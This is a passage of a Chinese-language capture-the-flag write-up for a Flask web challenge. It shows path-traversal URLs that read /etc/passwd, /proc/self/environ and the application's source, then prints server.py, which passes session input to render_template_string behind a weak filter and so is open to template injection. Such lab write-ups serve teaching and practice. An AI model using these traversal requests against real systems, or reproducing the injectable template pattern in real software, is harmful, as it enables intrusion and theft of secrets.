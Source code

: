 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
```

5. 尝试 `/proc/self/cmdline`,，即`http://172.19.0.1:5000/article?name=/../../../proc/self/cmdline`，获得回显信息：`pythonserver.py`,获得题目是 python 的服务器。

6. 尝试在 `environ` 查看环境变量，即`http://172.19.0.1:5000/article?name=/../../../proc/self/environ`,获得环境变量,得知`server.py` 在 `/home/sssssserver`路径下。
   > HOSTNAME=c0b8f0d6cb78HOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPWD=/home/sssssserver

7. 直接访问`server.py`，即`http://172.19.0.1:5000/article?name=/../../../home/sssssserver/server.py`,成功回显 `server.py` 源码。（server.py 可以通过`/proc/self/cwd`进入当前应用所在目录直接获得，即`http://172.19.0.1:5000/article?name=/../../../proc/self/cwd/server.py`）
```python
#!/usr/bin/python
import os
from flask import (Flask, render_template, request, url_for, redirect, session, render_template_string)
from flask_session import Session

app = Flask(__name__)

# execfile() 函数可以用来执行一个文件。
execfile('flag.py')
execfile('key.py')
FLAG = flag

# 在flask项目中，Session, Cookies以及一些第三方扩展都会用到SECRET_KEY值，这是一个比较重要的配置值。
app.secret_key = key

# 访问 host/n1page 时会进入此方法
@ app.route("/n1page", methods=["GET", "POST"])
def n1page():
	if request.method != "POST":
		return redirect(url_for("index"))

	n1code = request.form.get("n1code") or None

	# 过滤
	if n1code is not None:
		n1code = n1code.replace(".", "").replace("_", "").replace("{", "").replace("}", "")

	if "n1code" not in session or session['n1code'] is None:
		session['n1code'] = n1code

	template = None

	if session['n1code'] is not None:
		template = '''
			<h1>N1 Page</h1> <div class="row> 
			<div class="col-md-6 col-md-offset-3 center"> 
			Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>?
			 </div> </div> ''' % session['n1code']

	session['n1code'] = None
	return render_template_string(template) @ app.route("/", methods=["GET"])


def index():
	return render_template("main.html")
```